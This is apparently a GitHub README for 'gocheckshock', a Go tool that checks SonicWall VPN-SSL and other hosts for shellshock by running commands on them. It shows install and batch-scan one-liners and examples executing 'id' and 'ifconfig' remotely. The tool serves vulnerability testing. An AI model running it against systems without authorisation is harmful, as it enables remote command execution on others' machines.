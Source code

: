 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/gocheckshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./gocheckshock -i ; done
```
### Simple command - Default -c echo
```
▶ ./gocheckshock -i x.x.x.x
```
### With commands
```
▶ ./gocheckshock -i x.x.x.x -c id
▶ ./gocheckshock -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gocheckshock/blob/main/goshock_checker.png" width="90%"></p>
